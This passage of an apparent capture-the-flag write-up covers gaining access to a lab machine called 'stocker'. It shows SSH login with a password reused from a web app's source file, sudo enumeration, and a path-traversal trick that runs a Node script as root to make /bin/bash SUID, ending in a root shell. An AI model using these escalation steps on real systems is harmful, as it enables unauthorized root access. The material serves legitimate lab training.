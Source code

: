 ```bash
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:CENSORED@localhost/dev?authSource=admin&w=1";
```

## SSH Access

Using the user we identified by reading **/etc/passwd** and the password found in **/var/www/dev/index.js** we are able to ssh into the machine.

# Escalation

## Enumeration

Seems like we are allowed to run any script ending with .js located in /usr/local/scripts/ as root.  

```bash
sudo -l
```

```bash
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

## Become Root

We'll abuse the **sudo** permissions as there's no check for directory traverseral to change the permissions of **/bin/bash**.  

**perm.js**

```js
require('child_process').exec('bash -c "chmod u+s /bin/bash"')
```

**Change Perms**

```bash
sudo /usr/bin/node /usr/local/scripts/../../../tmp/perm.js
```

```
angoose@stocker:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

**Escalate**

```bash
angoose@stocker:/tmp$ /usr/bin/bash -p
bash-5.0# whoami
root
```